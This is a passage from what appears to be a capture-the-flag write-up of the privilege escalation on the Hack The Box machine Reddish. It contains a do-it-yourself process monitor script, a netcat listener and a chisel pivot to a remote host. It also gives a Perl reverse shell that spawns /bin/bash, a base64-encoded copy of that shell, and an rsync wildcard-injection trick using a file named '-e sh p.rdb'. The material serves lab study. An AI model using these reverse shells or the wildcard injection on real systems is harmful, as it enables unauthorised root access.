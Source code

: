![](ipaweareinno4.png)

## PrivEsc 

Backup directory is the only thing that stands out in the filesystem
![](backupstandsout.png)

`rsync` is used to backup and I recently was looking into commands I did not know on Linux that other individuals that use linux think are good - [The Linux Cast](https://www.youtube.com/@TheLinuxCast/channels) and [DistroTube](https://www.youtube.com/@DistroTube) for all the Linux things I do not need (till I do) and never knew I needed [This Linux Cast video explained a bit of rsync](https://www.youtube.com/watch?v=-Gl9H8TW774)

[0xdf](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell) uses a DIY pspy
```bash
#!/bin/bash

IFS=$'\n'

old=$(ps -eo command)
while true; do
    new=$(ps -eo command)
    diff <(echo "$old") <(echo "$new") | grep [\<\>]
    sleep .3
    old=$new
done
```

He then exploit the wildcard of the `rsync -a *.rdb` with a reverse shell `p.rdb` that gets called via create a file `touch` called  `-e sh p.rdb` and using `base64 -d` to add content to `p.rdb`. The [rsync GTFObins](https://gtfobins.github.io/gtfobins/rsync/#shell) `-e sh` is to execute `sh` and because of wildcard - `*.rdb` it will execute because we have made a file that is then interpreted as a command by the rsync cronjob to run our reverse shell `p.rdb`.  

```bash
# Rsync Root shell
rlwrap ncat -lvnp 10004

# Add another Chisel - Local Pivot on NodeRed 
nohup ./chisel client 10.10.14.94:10000 10004:127.0.0.1:10004 &

vim # :set paste [ENTER] i [SHIFT CTRL + V]
perl -e 'use Socket;$i="172.19.0.3";$p=10004;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# Encode to base64 to copy
cat rsync-rs | base64 -w0
# On Backup Docker container

echo 
# Copy below type out the above
cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuMyI7JHA9MTAwMDQ7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIik7fTsnCg==
| base64 -d > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/p.rdb

# Abuse rsync gtfobins with
touch /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ p.rdb
```
